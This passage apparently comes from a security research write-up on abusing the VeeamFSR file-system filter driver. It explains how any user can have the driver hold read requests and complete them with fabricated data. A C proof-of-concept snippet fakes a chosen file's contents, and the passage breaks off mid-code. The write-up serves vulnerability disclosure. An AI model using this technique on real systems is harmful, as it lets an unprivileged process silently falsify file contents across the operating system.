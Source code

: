 ![Sniff.png](../images/veeamon/Sniff.png)

**[Faking reads]**

Yet another delicious feature that VeeamFSR provides namely to Everyone is faking read data. This is what RFlags_CompleteRequest flag intended for. Setting this flag to the 3rd (IRP_MJ_READ) entry of file's array of flags tells the driver to wait read requests and to map read buffers to the controller app's address space. The controller app might fill the buffer with fake or modified data and unwait the request passing RFlags_CompleteRequest flag to apply changes. Unwaiting requests with this flag instructs the driver to complete the request with IoCompleteRequest rather than sending it to the actual FS driver. Thus, the controller app can actually fake data of any read operation in the OS. Pure evil, ah? The following snippet fakes the content of AzureDiamond.txt with '*' symbols while the real content of the file is ['hunter2'](http://bash.org/?244321) string:
{% highlight C %}
case 0x0: //IRP_MJ_CREATE
case 0x33: //Fast _IRP_MJ_CREATE
{
    PrintEntryInfo("IRP_MJ_CREATE", IOEntryBuffer, IOEntry);

    FlagsDescritptor FlagsDescs[2];
    if (IsEqualPathName(&IOEntryBuffer[EntryNameIndex], FakeReadName))
    {
        FlagsDescs[0].Function = 3; //IRP_MJ_READ
        FlagsDescs[0].RFlags = RF_CompleteRequest;
        FlagsDescs[1].Function = 4; //IRP_MJ_WRITE
        FlagsDescs[1].RFlags = (RequestFlags)(RF_PassDown | RF_CallPreHandler);
    }
    else
    {
        FlagsDescs[0].Function = 3; //IRP_MJ_READ
        FlagsDescs[0].RFlags = (RequestFlags)(RF_PassDown | RF_CallPostHandler);
        FlagsDescs[1].Function = 4; //IRP_MJ_WRITE
        FlagsDescs[1].RFlags = (RequestFlags)(RF_PassDown | RF_CallPreHandler);
    }
    CtlSetStreamFlags(hDevice, &IOEntry->Ctrl, FlagsDescs, 2);

    CtlUnwaitRequest(hDevice, &IOEntry->Ctrl, CurrEntry, RF_PassDown);
